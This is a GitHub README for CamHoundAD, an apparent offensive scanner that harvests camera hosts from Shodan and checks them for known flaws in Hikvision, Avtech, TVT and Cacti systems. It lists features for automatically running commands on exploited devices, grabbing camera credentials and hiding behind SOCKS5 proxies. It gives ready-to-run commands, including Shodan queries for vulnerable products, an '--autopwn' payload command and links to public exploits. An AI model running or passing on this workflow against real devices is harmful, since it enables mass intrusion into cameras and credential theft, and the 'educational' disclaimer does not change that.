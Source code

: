 # CamHoundAD

<a href="https://github.com/byt3n33dl3/CamHoundAD/"><p align="center">
<img src="/screenshots/cctv.jpg">
</p></a>

This is a tool meant to assist `Cyber Security` researchers on Discovering outdated and Vulnerable camera systems on the internet by utilizing [shodan.io](shodan.io). I was able to discover thousands of vulnerable cameras using it. It could be for Cammera Attacks research, CCTV's Attacks research, etc.

# Vendors Affected

>- [+] Hikvision

>- [+] Nikon

>- [+] Avtech

>- [+] GoPro

>- [+] TVT

>- [+] Cacti

Coming Soon . . .

# Features

- Fetching of hosts from shodan.io
   - [Attacks Key](shodan.io)
- Check for vulnerable cameras
- Automatically run commands on exploited Devices
- Automatically grab camera credentials
- Multi-threading for faster scanning
- Usage of Socks5 proxies for anonymity
- Storing results in Sqlite3 database
- Logging all actions in log files 

# Prerequisites

To use this tool you need to have the following:
- Shodan API Key
- Socks5 authenticated proxies

# Installation

```python
git clone https://github.com/byt3n33dl3/CamHoundAD
pip install -r requirements.txt
python3 scanner.py --help
```

# Usage

## Collect hosts in database

```python
# Collect Hikvision hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Hikvision IP Camera"' --pages 1

# Collect Avtech hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'linux upnp avtech' --pages 1

# Collect TVT hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Cross Web Server"' --pages 1

# Collect Cacti hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'Login to Cacti' --pages 1
```

## Check hosts for exploit

```python
python3 scanner.py --check --proxy-file proxies.txt --threads 20
```

## Automatically run command on exploited hosts

```python
python3 scanner.py --autopwn --proxy-file proxies.txt --payload "id"
```

# About CamHoundAD

This tool is purely educational and is inteded to make the internet more secure. **I will not be responsible for any direct or indirect damage caused due to the usage of this tool, it is for educational purposes only.** Any PR's or suggestions on improving this project are welcome

## Exploits Used

[[+] Exploit-db](https://www.exploit-db.com/exploits/40500)

[[+] Exploit-db](https://www.exploit-db.com/exploits/50441)

[[+] RCE](https://github.com/k1p0d/h264_dvr_rce)

[[+] CVE](https://github.com/sAsPeCt488/CVE-2022-46169)
